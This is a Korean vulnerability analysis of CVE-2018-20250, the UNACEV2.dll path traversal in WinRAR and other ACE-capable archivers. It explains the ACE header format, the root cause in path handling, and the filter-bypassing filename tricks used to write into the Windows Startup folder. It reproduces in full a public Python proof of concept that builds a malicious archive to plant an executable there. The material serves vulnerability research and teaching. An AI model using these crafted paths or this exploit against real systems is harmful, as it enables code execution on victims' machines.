








# UNACEV2.dll 임의경로 압축해제 취약점

## Information
- CVE : 2018-20250
- 해당 소프트웨어 : WinRAR, BANDIZIP, ALZIP 등 ACE 파일 압축 해제를 지원하는 프로그램
- 해당 버전 : WINRAR <=5.61, BANDIZIP <6.21 등
- 취약점 유형 : 디렉토리 경로 조작

## Background
### unacev2.dll
Winrar을 포함한 압축 및 압축 해제 프로그램에서 ACE포맷의 파일을 파싱하는데 공통적으로 unacev2.dll을 사용한다. 이 dll은 2006년에 컴파일된 오래된 dll으로서, 보호메커니즘조차 없이 만들어진 dll임을 알 수 있다. 이 취약점을 이해하기 위해, Winrar에서 해당 dll을 호출하는 방식을 알아야 한다.  바이너리를 분석해보면, 아래 함수가 순서대로 호출되어야 함을 알 수 있다. CheckPoint에서 취약점을 발견하고, 이를 익스플로잇하기까지의 상세 과정을 공개하였는데, 이하 내용은 이를 번역 및 재구성하여 작성하였다.

* 먼저, ACEInitDll이라는 이름을 가진 초기화 함수를 보면, 아래와 같이 `struct_1` 이라는 알 수 없는 구조체에 대한 포인터를 받는다.
```c++
INT __stdcall ACEInitDll(unknown_struct_1 *struct_1);
```
* 다음으로, ACEExtract라는 이름의 압축해제 함수가 호출되어야 한다.  이는 두 개의 인자를 받는데, 하나는 압축 해제할 ace 파일의 이름인 `string`에 대한 포인터이고, 두 번째 인자는 알려지지 않은 구조체이다.  
```c++
INT __stdcall ACEExtract(LPSTR ArchiveName, unknown_struct_2 *struct_2);
```
[FarManager](https://github.com/FarGroup/FarManager)라는 Github 프로젝트를 통해  두 함수에서 알려지지 않은 구조체를 이해해볼 수 있다. 여기서 제공하는 헤더  파일을 IDA에 로드하면, 아래와 같이 구조체 정보를 복구할 수 있다. 
```c++
INT __stdcall ACEInitDll(pACEInitDllStruc DllData);
INT __stdcall ACEExtract(LPSTR ArchiveName, pACEExtractStruc Extract);
```
### ACE 포맷 이해
ACE 아카이브 생성 자체는 특허로 보호되고 있기에, WinACE로만 파일을 생성할 수 있다. 또한, 이는 2007년 11월이 최종 버전이다. (ACE에서 파일을 추출하는 것은 특허 범위에 포함되지 않는다.)  ACE 파일의 구조를 파악하기 위해, WinACE를 이용하여 ace 파일을 생성한 후,  헤더정보를 확인해보면 아래 그림과 같다.



[acefile 프로젝트](https://pypi.org/project/%3Ccode%3Eacefile%3C/code%3E%20/)에서 제공하는 acefile.py를 이용하여 헤더 정보를 분석하면, 아래 그림과 같은 정보를 알 수 있다. 



중요한 정보들은 아래와 같다.
* hdr_crc(분홍색)
2개의 헤더에 각각 CRC필드가 있다. 이 CRC가 데이터와 일치하지 않으면 추출이 중단된다. 이를 고려하지 않고 퍼징하면 제대로 된 경로를 추적할 수 없게 된다. 
* 파일 이름(녹색) 
파일의 상대 경로를 나타낸다. 
* advert (노란색)
WinACE가 등록되지 않은 버전을 사용하여 생성된 경우 이 필드는 자동으로 생성된다.
* 파일 내용 
 - origsize : 내용의 크기를 나타낸다.
 - hdr_size : 헤더 크기이다. 

이 중, filename 필드에서 상대 경로를 포함하므로, Path Traversal에 취약할 가능성이 있다. 취약점을 발견한 해당 팀은 퍼저를 제작하여 취약점을 발견하였다. 



위 그림을 보면, 의도되지 않은 경로에 의도하지 않은 파일을 압축 해제함을 알 수 있다. 그러나, 이를 WinRAR에서 제대로 trigger하여 임의의 경로에 파일을 쓰기 위해서는 유효성 검증 절차를 통과해주어야 한다. 



그 의사 코드는 위와 같고, 요약하면 아래와 같다.
1. 첫 번째 문자는 "\"이나 "/"이 아닐 것
2. 파일이름은 "../"이나 "..\"으로 시작하지 않을 것
3. “\..\”, “\../”, “/../”, “/..\”과 같은 가젯도 존재하지 않을 것

unacv2.dll에서 호출하는 압축 해제 함수는 상대 경로로 StateCallbackProc의 filename필드를 전달한다. 여기서 위 조건에 걸리면, filename에 해당하는 파일 생성이 중단된다. 또한, 이러한 경우에도 지정된 폴더가 생성되고 파일이 생성되지 않는 경우도 있는데, unacev2.dll폴더를 생성하기 전에 유효성 검사를 시작하기는 하지만, 이미 폴더가 만들어진 후에 리턴값을 확인하기 때문이다. 즉, 파일에 컨텐츠를 쓰기 직전에 중단하게 되어 폴더와 빈 파일은 생성될 수 있다.

## Root Cause
이제, 상대 경로가 절대 경로로 취급되는 원인을 파악한다. DynamoRio를 이용하여 Coverage 비교를 한 결과,아래와 같은 취약한 부분을 볼 수 있다. 



코드 적용 결과에서 익스플로잇 파일이 다른 기본 블록 (파란색으로 표시됨)을 거치지 않고 반대 기본 블록 (빨간색 화살표로 표시된 잘못된 상태)으로 흐른다는 것을 확인할 수 있다. 코드 흐름이 빨간 화살표 부분을 통과하면 연두색 프레임 안에있는 줄이 대상 폴더를 ""(빈 문자열)로 바꾸고 나중에 sprintf함수 호출을 수행하여 대상 폴더를 추출된 파일의 상대 경로에 연결한다. 이 떄  GetDevicePathLen이 0이면 sprintf는 다음과 같다.
```c++
sprintf(final_file_path, "%s%s", destination_folder, file_relative_path);
```
그렇지 않으면:
```c++
sprintf(final_file_path, "%s%s", "", file_relative_path);
```
이 때, 아래의 sprintf은 경로 탐색 취약점을 유발하는 버그가 있는 코드이다.
즉, 상대 경로는 사실상 생성되거나 써여야 할 파일이나 디렉토리의 절대경로로 처리된다. 
근본 원인을 더 잘 이해하기 위해 GetDevicePathLen 함수를 살펴 보면, 아래와 같다.



해당 함수에서는 상대 경로를 인자로 받은 후 디바이스나 드라이브 이름이 경로 인자에 들어가있는지를 보고, 해당 문자열의 길이를 리턴한다. 예를 들면, 아래와 같다.
 - C:\some_folder\some_file.ext인 경우, 3 반환
 - \some_folder\some_file.ext인 경우, 1 반환
 - \\LOCALHOST\C$\some_folder\some_file.ext인 경우 15 반환
 - \\?\Harddisk0Volume1\some_folder\some_file.ext인 경우 21 반환
 - some_folder\some_file.ext인 경우, 0 반환

 이 때, GetDevicePathLen이 0보다 크면 그 길이만큼 호출된 값주에서 폴더가 빈 문자열로 바뀌기 때문에, 파일의 상대 경로가 전체 경로로 간주되면서 sprintf에서 경로 탐색 취약점이 발생하게 된다. 그러나, 이를 호출하기 전에 허용되지 않는 시퀀스를 삭제하여 상대경로값을 정리하는 기능이 있따. 그 의사코드는 아래와 같다.


 
 이 함수는 "\..\"와 같은 간단한 시퀀스들을 생략한다. 
### 우회
 
 익스플로잇 파일을 생성하여 WinRAR이 아카이브된 파일을 임의의 경로로 압축을 해제하도록 하려면, 두 가지 기능을 우회해주어야 한다. 
 먼저, 
 ```c++
sprintf(final_file_path, "%s%s", destination_folder, file_relative_path);
```
대신에 
```c++
sprintf(final_file_path, "%s%s", "", file_relative_path);
```
로 연결하여 빈 문자열을 압축 파일의 상대 경로에 들어가게 하고, GetDevicePathLen함수의 결과를 0보다 크게 해야 한다.
이는 대표적으로 두 개의 경우가 있다.
 - 옵션 1 : C:\some_folder\some_file.ext
 - 옵션 2 : \some_folder\some_file.ext

이 중에서 unacev2.dll의 CleanPath 함수에서 C:\로 시작하는 경우는 필터링하기 때문에 사용할 수 없지만, 옵션 2의 "\"는 삭제하지 않는다. 옵션 1의 필터링을 우회하기 위해, 다음과 같이 변경할 수 있다.
- 옵션 1 : C:\C:\some_folder\some_file.ext  =>  C:\some_folder\some_file.ext

다음으로, 콜백 함수에서 상대 경로를 확인하여 블랙리스트에 있는 시퀀스가 있으면 작업을 중단한다. 여기서 "\"에 대해서는 점검을 하지만, "C\"에 대해서는 확인하지 않는다. 결과적으로, 옵션 1번을 사용하여 경로 탐색 취약점을 악용 가능하다. 여기서는 나아가 임의의 SMB 서버에 파일과 폴더를 생성하는 공격 경로 도 찾았다.
 - 예 : C:\\\10.10.10.10\smb_folder_name\some_folder\some_file.ext => \\10.10.10.10\smb_folder_name\some_folder\some_file.ext

### 악용 파일의 예시
다음과 같이 filename 필드를 조작하여 임의의 경로에 임의의 파일을 생성할 수 있다. 



### Path Traversal을 이용한 Code Execution
Startup폴더를 이용하여 코드 실행을 가능하게 할 수 있다. 
- C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
- C:\Users\<user name>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
WinRAR은 중간 단계의 권한으로 실행되는데, 위 첫 번째 경로는 높은 권한이 필요하므로, UAC 우회가 필요하다. 그러나, 2번째 경로는 기본 권한으로 파일을 저장할 수 있지만, Username을 알아야 한다. 이를 신경쓰지 않기 위해서는 아래와 같이 경로를 넣으면 된다.
 - C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe
위와같이 경로를 설정할 경우, CleanPath 함수에 의해 "C:\C:"를 순차적으로 제거하기 때문에, 다음 경로로 변환된다.
 - C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe
또한, 이는 GetDevicePathLen에서 2를 반환하기 때문에, 결국 아래와 같은 경로만 남는다.
 - ../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\some_file.exe
이는 상대경로이므로 현재 디렉토리에 종속적이지만, 일반적으로, Download폴더나 Desktop 폴더는 아래 경로에 있기 때문에, 성공적으로 Startup 폴더에 도달할 수 있따. 
- C:\Users\<user name>\Downloads
- C:\Users\<user name>\Desktop

## Patch
본 취약점을 해결하기 위해서는 UNACEV2.dll의 코드를 수정해야 한다. 그러나, 압축프로그램 벤더사에 해당 dll의 소스가 부재하고, 해당 dll의 추가 패치가 어렵다고 판단하여 WinRAR, BANDIZIP 등의 상위 버전에서는 해당 포맷의 압축 해제를 미지원하는 방식으로 패치하였다. 이는 기존에 ACE포맷의 압축이 잘 쓰이지 않았던 것도 함꼐 고려되었을 것으로 판단된다.

## PoC
공개된 PoC는 아래와 같다. 이는 결국 C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup 경로에 파일을 넣는 코드임을 재확인할 수 있다. 
  - [출처 : WyAtu](https://github.com/WyAtu/CVE-2018-20250/blob/master/exp.py)
```python
#!/usr/bin/env python3

import os
import re
import zlib
import binascii

# The archive filename you want
rar_filename = "test.rar"
# The evil file you want to run
evil_filename = "calc.exe"
# The decompression path you want, such shown below
target_filename = r"C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\hi.exe"
# Other files to be displayed when the victim opens the winrar
# filename_list=[]
filename_list = ["hello.txt", "world.txt"]

class AceCRC32:
    def __init__(self, buf=b''):
        self.__state = 0
        if len(buf) > 0:
            self += buf

    def __iadd__(self, buf):
        self.__state = zlib.crc32(buf, self.__state)
        return self

    def __eq__(self, other):
        return self.sum == other

    def __format__(self, format_spec):
        return self.sum.__format__(format_spec)

    def __str__(self):
        return "0x%08x" % self.sum

    @property
    def sum(self):
        return self.__state ^ 0xFFFFFFFF

def ace_crc32(buf):
    return AceCRC32(buf).sum

def get_ace_crc32(filename):
    with open(filename, 'rb') as f:
        return ace_crc32(f.read())

def get_right_hdr_crc(filename):
    # This command may be different, it depends on the your Python3 environment.
    p = os.popen('py -3 acefile.py --headers %s'%(filename))
    res = p.read()
    pattern = re.compile('right_hdr_crc : 0x(.*?) | struct')
    result = pattern.findall(res)
    right_hdr_crc = result[0].upper()
    return hex2raw4(right_hdr_crc)

def modify_hdr_crc(shellcode, filename):
    hdr_crc_raw = get_right_hdr_crc(filename)
    shellcode_new = shellcode.replace("6789", hdr_crc_raw)
    return shellcode_new

def hex2raw4(hex_value):
    while len(hex_value) < 4:
        hex_value = '0' + hex_value
    return hex_value[2:] + hex_value[:2]

def hex2raw8(hex_value):
    while len(hex_value) < 8:
        hex_value = '0' + hex_value
    return hex_value[6:] + hex_value[4:6] + hex_value[2:4] + hex_value[:2]

def get_file_content(filename):
    with open(filename, 'rb') as f:
        return str(binascii.hexlify(f.read()))[2:-1] # [2:-1] to remote b'...'

def make_shellcode(filename, target_filename):
    if target_filename == "":
        target_filename = filename
    hdr_crc_raw = "6789"
    hdr_size_raw = hex2raw4(str(hex(len(target_filename)+31))[2:])
    packsize_raw = hex2raw8(str(hex(os.path.getsize(filename)))[2:])
    origsize_raw = packsize_raw
    crc32_raw = hex2raw8(str(hex(get_ace_crc32(filename)))[2:])
    filename_len_raw = hex2raw4(str(hex(len(target_filename)))[2:])
    filename_raw = "".join("{:x}".format(ord(c)) for c in target_filename)
    content_raw = get_file_content(filename)
    shellcode = hdr_crc_raw + hdr_size_raw + "010180" + packsize_raw \
              + origsize_raw + "63B0554E20000000" + crc32_raw + "00030A005445"\
              + filename_len_raw + filename_raw + "01020304050607080910A1A2A3A4A5A6A7A8A9"
    return shellcode

def build_file(shellcode, filename):
    with open(filename, "wb") as f:
        f.write(binascii.a2b_hex(shellcode.upper()))

def build_file_add(shellcode, filename):
    with open(filename, "ab+") as f:
        f.write(binascii.a2b_hex(shellcode.upper()))

def build_file_once(filename, target_filename=""):
    shellcode = make_shellcode(filename, target_filename)
    build_file_add(shellcode, rar_filename)
    shellcode_new = modify_hdr_crc(shellcode, rar_filename)
    content_raw = get_file_content(rar_filename).upper()
    build_file(content_raw.replace(shellcode.upper(), shellcode_new.upper()).replace("01020304050607080910A1A2A3A4A5A6A7A8A9", get_file_content(filename)), rar_filename)

if __name__ == '__main__':
    print("[*] Start to generate the archive file %s..."%(rar_filename))

    shellcode_head = "6B2831000000902A2A4143452A2A141402001018564E974FF6AA00000000162A554E524547495354455245442056455253494F4E2A"
    build_file(shellcode_head, rar_filename)

    for i in range(len(filename_list)):
        build_file_once(filename_list[i])

    build_file_once(evil_filename, target_filename)

    print("[+] Evil archive file %s generated successfully !"%(rar_filename))
```

## Reference
- [CheckPoint Research: Extracting a 19 Year Old Code Execution from WinRAR ](https://research.checkpoint.com/extracting-code-execution-from-winrar/)
- [NIST NVD: CVE-2018-20250]()
- [tenable : WinRAR Absolute Path Traversal Vulnerability Leads to Remote Code Execution (CVE-2018-20250)]()
- [WyAtu PoC](https://github.com/WyAtu/CVE-2018-20250/blob/master/exp.py)
